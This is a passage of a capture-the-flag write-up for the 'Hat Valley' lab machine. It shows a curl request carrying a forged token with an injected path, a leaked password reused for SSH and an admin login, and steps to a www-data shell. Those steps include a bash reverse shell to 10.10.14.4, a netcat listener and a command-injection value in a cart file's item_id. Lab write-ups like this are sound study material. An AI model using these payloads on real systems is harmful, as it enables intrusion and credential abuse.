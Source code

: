 
Download the file ‘bean_backup_final.tar.gz’ using the curl command.  A simple and fast way to write this command is to right click in burpsuite request and select ‘copy as curl command’.  Remove from the curl command the ‘-i’ option: \
curl -s -k -X 'GET' -H 'Host: hat-valley.htb' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: close' -H 'Referer: http://hat-valley.htb/leave' -H 'If-None-Match: W/\"8c-rIHXkvsSLlUvGPdve0hY79VoWd0\"' -H 'Content-Length: 0' -b 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ob21lL2JlYW4vRG9jdW1lbnRzL2JhY2t1cC9iZWFuX2JhY2t1cF9maW5hbC50YXIuZ3ogJ2EiLCJpYXQiOjE2Njc4NjAzODN9.b4SY0b-w78jm3Wuz-VY6dr9io_UJGtq8EGvqJz2qc8s'  'http://hat-valley.htb/api/all-leave' > bean_backup_final.tar.gz

Unzip the bean_backup_final.tar.gz with command: tar -xvf bean_backup_final.tar.gz. \
The tar command extracted a file by the name of ‘bean_backup.tar.gz’.  Extract ‘bean_backup.tar.gz’ also with command: tar -xvf  bean_backup.tar.gz.  

In the files tar extracted, the directory .config/xpad/content refernces a user bean and shows a password ‘014mrbeanrules!#P’.  Use these credentials to ssh into user bean.  \
ssh bean@10.10.11.185 → when prompts for password enter the password.   \
We have shell as bean, can get the flag at /home/bean/user.txt.
___________________________________________________________________
**Lateral Movement:**\
Found credentials in /etc/nginx/conf.d/.htpasswd: username ‘admin’ and a hashed password.  This  username and hashed password is associated to the store.hat-valley.htb site.  Can’t crack the hashed password, but trying password reuse with user bean’s password works. Log into http://store.hat-valley.htb/ with username ‘admin’ and password ‘014mrbeanrules!#P’.   
 
Click on the top of the website where it says ‘SHOP’. That takes us to directory /shop.php.  Click on ‘add to cart’ under any of the 3 items:
 
![image](https://user-images.githubusercontent.com/93153300/200636812-30cbf7a3-8d7a-4fc0-8467-a0cc020ea4fe.png)
 
Click on the top of the website where is says ‘CART’.  That takes us to directory /cart.php.  We see the item we added to the cart.  

![image](https://user-images.githubusercontent.com/93153300/200636852-d9d7850c-34db-41f6-96b6-45adc68bc844.png)


The items added to the cart on site http://store.hat-valley.htb/cart.php will show up on our target bean shell in directory /var/www/store/cart with www-data user permissions.  So before adding an item to the cart the /var/www/store/cart directory looks empty: 

![image](https://user-images.githubusercontent.com/93153300/200636882-90e7ed83-0f3e-477d-bc3c-75640f3f2349.png)

After adding an item on http://store.hat-valley.htb/cart.php then the /var/www/store/cart directory shows the item:

![image](https://user-images.githubusercontent.com/93153300/200636917-65d3fc51-a392-407f-91b0-1e358a0a5a55.png)

Burp suite shows the same random filename is given to the item on our site http://store.hat-valley.htb/cart.php:

![image](https://user-images.githubusercontent.com/93153300/200636950-f9296747-70f0-4c1d-98e3-27084fb77f41.png)
 
Here are the steps to get shell as www-data: \
Step 1:  open a netcat listener with command: nc -lvnp 443 (I will use pwncat-cs -lp 443 because it gives a better shell) \
Step 2: echo -n “bash -c 'bash -i >& /dev/tcp/10.10.14.4/443 0>&1'” > /dev/shm/shell.sh \
Step 3: chmod +x /dev/shm/shell.sh \
Step 4: add item to the cart on the website http://store.hat-valley.htb/shop.php \
Step 5: in the user bean shell in directory /var/www/store/cart copy shop.php with command: cp 0ef8-d2f3-a9c-8c1b blob \
Step 6: Since we cannot edit the file created in /var/www/store/cart because it has user www-data permissions, we will delete the file.  Use command: rm -f  0ef8-d2f3-a9c-8c1b \
Step 7: Change the copied filename ‘blob’ to the filename we just deleted. Use command: mv  blob 0ef8-d2f3-a9c-8c1b \
Step 8: Change the item_id value in the file 0ef8-d2f3-a9c-8c1b as follows: item_id=1' -e "1e /tmp/shell.sh" /tmp/shell.sh ' \